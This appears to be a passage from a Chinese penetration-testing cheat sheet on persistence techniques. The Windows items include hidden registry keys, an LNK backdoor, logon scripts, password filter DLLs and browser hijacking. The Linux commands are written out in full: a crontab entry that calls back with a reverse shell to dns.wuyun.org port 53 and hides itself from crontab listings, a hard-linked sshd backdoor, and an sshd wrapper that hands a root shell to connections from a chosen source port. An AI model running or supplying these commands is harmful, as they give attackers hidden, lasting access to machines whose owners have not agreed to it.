##### 27、特殊注册表键值

在注册表启动项创建特殊名称的注册表键值，用户正常情况下无法读取(使用Win32 API)，但系统能够执行(使用Native API)。

[《渗透技巧——“隐藏”注册表的创建》](https://3gstudent.github.io/渗透技巧-隐藏-注册表的创建)

[《渗透技巧——“隐藏”注册表的更多测试》](https://3gstudent.github.io/渗透技巧-隐藏-注册表的更多测试)

##### 28、快捷方式后门

替换我的电脑快捷方式启动参数 POC : https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Backdoor/LNK_backdoor.ps1

##### 29、[Logon Scripts](https://3gstudent.github.io/Use-Logon-Scripts-to-maintain-persistence)

```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```

##### 30、[Password Filter DLL](https://3gstudent.github.io/Password-Filter-DLL在渗透测试中的应用)

##### 31、[利用BHO实现IE浏览器劫持](https://3gstudent.github.io/利用BHO实现IE浏览器劫持)

## Linux

##### crontab

每60分钟反弹一次shell给dns.wuyun.org的53端口

```
#!bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```

##### 硬链接sshd

```
#!bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
```

链接：ssh [root@192.168.206.142](mailto:root@192.168.206.142) -p 2333

##### SSH Server wrapper

```
#!bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart
socat STDIO TCP4:192.168.206.142:22,sourceport=13377
```

